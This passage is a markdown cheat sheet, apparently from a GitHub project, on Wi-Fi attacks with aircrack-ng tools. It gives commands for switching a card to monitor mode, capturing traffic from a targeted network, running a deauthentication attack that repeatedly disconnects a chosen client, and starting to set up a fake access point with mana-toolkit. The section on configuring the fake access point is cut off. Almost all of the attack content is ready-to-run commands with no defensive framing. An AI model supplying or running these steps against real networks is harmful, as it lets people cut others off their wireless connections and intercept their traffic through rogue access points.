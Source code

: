 - Change wireless back to managed mode

`airmon-ng stop INTERFACE`

### Second method

- Changing managed mode on wireless card

`iwconfig INTERFACE mode monitor`

- Change wireless back to managed mode

`airmon-ng stop INTERFACE`

### Third method

- Changing managed mode on wireless card

`airmon-ng check kill`

`airmon-ng start INTERFACE`

- Change wireless back to managed mode

`airmon-ng stop INTERFACE`

## Capturing packets

- Show networks

`airodump-ng INTERFACE`

- Target specific network

`airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX --write PATH/FILENAME INTERFACE`

- Analyse captured packets with Wireshark (if not encrypted)

### Deauthentication Atack

- Show needed information 

`airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX INTERFACE`

- Disconnect target

`aireplay-ng --deauth 10000 -a NETWORKMAC -c TARGETMAC INTERFACE`

## Creating Fake AccessPoint

- Install mana-toolkit

`apt-get install mana-toolkit`

### AP with internet connection

- Adjust settings

`gedit /etc/mana-toolkit/hostapd-mana.conf` adjust accordingly
